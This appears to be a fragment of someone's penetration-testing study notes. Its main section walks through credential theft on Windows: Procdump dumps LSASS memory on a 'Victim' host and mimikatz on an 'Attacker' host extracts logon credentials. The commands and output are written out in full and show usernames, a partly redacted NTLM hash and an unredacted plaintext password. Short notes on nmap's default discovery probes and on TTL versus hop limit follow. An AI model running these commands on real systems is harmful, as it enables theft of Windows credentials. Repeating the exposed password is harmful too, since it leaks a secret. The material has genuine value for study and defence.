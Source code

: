 - Can run on a victim computer, or use memeory dump as a source


Microsoft signed `Procdump` dumps a memory of `LSASS`, and mimikatz uses it to extract passwords

```
Victim> .\procdump.exe -accepteula -ma lsass.exe lsass.dmp
ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com
[12:58:44] Dump 1 initiated: C:\temp\lsass.dmp
[13:02:44] Dump 1 writing: Estimated dump file size is 51 MB.
[13:02:45] Dump 1 complete: 51 MB written in 240.7 seconds
--------------
Attacker> .\mimikatz.exe
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
Opening : 'lsass.dmp' file for minidump...
Session : Interactive from 1
User Name : jwrig
Domain : DELL
msv :
[00000003] Primary
* Username : jwright@hasborg.com
* Domain : MicrosoftAccount
* NTLM : 920a********REDACTED********3fa4
ssp :
credman :
[00000000]
* Username : admin
* Domain : 172.16.0.10
* Password : _AhxmAKs3Xwx7VhQ@sCo
```

## Knowledge

### NMAP Default Behavior

As root

1. ICMP Echo Request
2. TCP SYN --> TCP 443
3. TCP ACK --> TCP 80
4. ICMP Timestamp Request

As non-rootPass

1. TCP SYN --> TCP 443
2. TCP SYN --> TCP 80 (root priv required to generate ACK packets)

### Hop Limit and TTL

IPv4 TTL == IPv6 Hop Limit

